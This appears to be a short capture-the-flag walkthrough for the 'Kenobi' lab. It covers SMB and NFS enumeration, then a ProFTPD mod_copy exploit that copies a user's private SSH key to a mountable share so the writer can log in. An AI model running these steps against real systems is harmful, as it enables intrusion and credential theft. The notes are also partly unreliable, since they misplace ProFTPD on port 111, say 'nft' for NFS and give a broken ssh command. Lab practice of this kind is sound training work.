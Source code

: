 # KENOBI

## enumeration

~~~
nmap -sV -sS -sC -oN namp_initial.txt <ip>
~~

- port 139 / 445 open.

~~~
enum4linux -a <ip>
~~~

- anonymous share

~~~
smbclient \\\\<ip>\\anonymous
~~~

- log.txt file exists showing a proFTPD server and SSH key being generated for kenobi.

- enumerate the proFTPD server (on port 111 from first nmap scan).

- A rpcbind is on port 111 
(A server that converts remote procedure call (RPC) program number into universal addresses. 
When an RPC service is started, it tells rpcbind the address at which it is listening 
and the RPC program number its prepared to serve). 

~~~
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <ip>
~~~

## Gain access through with ProFTPD

- Get the version of ProFTPD
- Connect via netcat

~~~
nc <ip address> <port>
~~~

- Use exploit in mod_copy module to copy private ssh key to tmp directory

~~~
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
~~~

- Use nft to mount to /var/tmp

~~~
mkdir /mnt/kenobiNFS
mount <ip of target mount>:/var /mnt/kenobiNFS/
~~~ 


- Then ssh into kenobi account

~~~
chmod 600 id_rsa
ssh -i kenobi@<ip address>
~~~


